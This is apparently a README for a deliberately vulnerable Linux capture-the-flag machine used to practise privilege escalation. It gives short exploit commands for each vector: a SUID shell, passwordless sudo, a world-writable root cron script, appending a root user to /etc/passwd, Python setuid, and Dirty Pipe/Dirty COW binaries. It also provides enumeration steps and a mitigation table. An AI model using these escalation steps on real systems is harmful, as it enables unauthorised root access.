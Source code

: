# Linux Privilege Escalation CTF Machine

![CTF Level](https://img.shields.io/badge/Level-Medium-orange)
![Platform](https://img.shields.io/badge/Platform-Linux-lightgrey)
![Category](https://img.shields.io/badge/Category-PrivEsc-blue)

A deliberately vulnerable Linux machine with multiple privilege escalation vectors. Perfect for practicing penetration testing skills in a controlled environment.

## Table of Contents
1. [Machine Overview](#machine-overview)
2. [Privilege Escalation Methods](#privilege-escalation-methods)
   - [1. SUID Binary](#1-suid-binary)
   - [2. Sudo Misconfiguration](#2-sudo-misconfiguration)
   - [3. Cron Job](#3-cron-job)
   - [4. Writable /etc/passwd](#4-writable-etcpasswd)
   - [5. Capabilities](#5-capabilities)
   - [6. SSH Backdoor](#6-ssh-backdoor)
   - [7. Kernel Exploits](#7-kernel-exploits)
3. [Setup Instructions](#setup-instructions)
4. [Exploitation Walkthrough](#exploitation-walkthrough)
5. [Mitigation Guide](#mitigation-guide)

## Machine Overview

**Difficulty**: Medium  
**Learning Objectives**:
- Identify multiple privilege escalation vectors
- Practice Linux system enumeration
- Understand security misconfigurations
- Learn proper mitigation techniques

**Default Credentials**:
- User: `hacker`
- Password: `Password123!`

## Privilege Escalation Methods

### 1. SUID Binary
**Location**: `/usr/bin/suid-sh`  
**Vulnerability**: Custom SUID binary that executes bash with root privileges  
**Exploitation**:
```bash
/usr/bin/suid-sh
```
Why it works: The binary has the SUID bit set and is owned by root.

### 2. Sudo Misconfiguration

Location: /etc/sudoers
Vulnerability: All users can run any command as root without a password

#### Exploitation:
```bash
sudo su
```
Why it works: The NOPASSWD: ALL directive in sudoers file.

### 3. Cron Job

Location: /etc/cron.d/backdoor
Vulnerability: World-writable script executed by root every minute

#### Exploitation:
```Bash
echo 'chmod 4755 /bin/bash' > /opt/backdoor.sh
# Wait 1 minute
/bin/bash -p
```
Why it works: Cron runs as root and executes our malicious script.

### 4. Writable /etc/passwd

Location: /etc/passwd
Vulnerability: World-writable system file

#### Exploitation:
```Bash
openssl passwd -1 -salt abc Password123
echo 'root2:$1$abc$TKhNXK5ZJBXvJ9XqFn1nq.:0:0:root:/root:/bin/bash' >> /etc/passwd
su root2
```
Why it works: We can add a new root user.

### 5. Capabilities

Location: Python binary
Vulnerability: cap_setuid capability set

#### Exploitation:
```python
import os
os.setuid(0)
os.system("/bin/bash")
```
Why it works: Python can elevate privileges due to its capabilities.

### 6. SSH Backdoor

Location: SSH service
Vulnerability: Pre-configured backdoor account
#### Exploitation:
```Bash
ssh hacker@<IP>
```
Why it works: Weak credentials and allowed SSH access.
### 7. Kernel Exploits

Location: /tmp/dirtypipe and /tmp/dirtycow
Vulnerability: Unpatched kernel vulnerabilities

#### Exploitation:
```Bash
# If kernel is vulnerable:
/tmp/dirtypipe
# or
/tmp/dirtycow
```
Why it works: Kernel vulnerabilities allow privilege escalation.
#### Setup Instructions
#### Using Vagrant
```bash
vagrant up
vagrant ssh
```
#### Exploitation Walkthrough

    Initial Access:
    ```Bash
    ssh hacker@<IP>  # Password: Password123!
    ```
### Enumeration:
```Bash
find / -perm -4000 2>/dev/null      # Check SUID binaries
sudo -l                             # Check sudo permissions
cat /etc/crontab                    # Check cron jobs
ls -la /etc/passwd                  # Check file permissions
getcap -r / 2>/dev/null             # Check capabilities
uname -a                            # Check kernel version
```
### Choose an Exploit Method from the list above.

#### Mitigation Guide
Vulnerability	Secure Configuration
SUID Binary	chmod u-s /usr/bin/suid-sh
Sudo Misconfig	Remove NOPASSWD: ALL from /etc/sudoers
Cron Job	chmod 700 /opt/backdoor.sh
/etc/passwd	chmod 644 /etc/passwd
Capabilities	setcap -r $(which python3)
SSH Backdoor	userdel -r hacker
Kernel	Update system: apt update && apt upgrade
